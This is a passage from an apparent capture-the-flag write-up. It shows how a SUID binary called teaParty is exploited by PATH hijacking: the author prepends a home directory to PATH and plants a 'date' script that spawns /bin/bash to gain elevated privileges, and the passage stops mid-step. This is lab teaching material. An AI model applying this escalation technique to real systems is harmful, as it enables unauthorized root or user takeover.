Navigating to rabbit's home directory, we find a file called teaParty, executable as root (SUID bit set).

We can read it using hexdump -C teaParty

![](images/2020-08-24-23-46-31.png)

So it uses a function called "date". We can export our $PATH variable to add a different location to the beginning, and have another "date" file that will execute a shell:

1. export PATH="/home/rabbit:$PATH"

![](images/2020-08-24-23-48-47.png)

2. Now we can create a "date" file in /home/rabbit:

    nano date

In file:

    #!/bin/bash

    /bin/bash

3. Save, chmod a+x to allow it to be executable, and run ./teaParty:
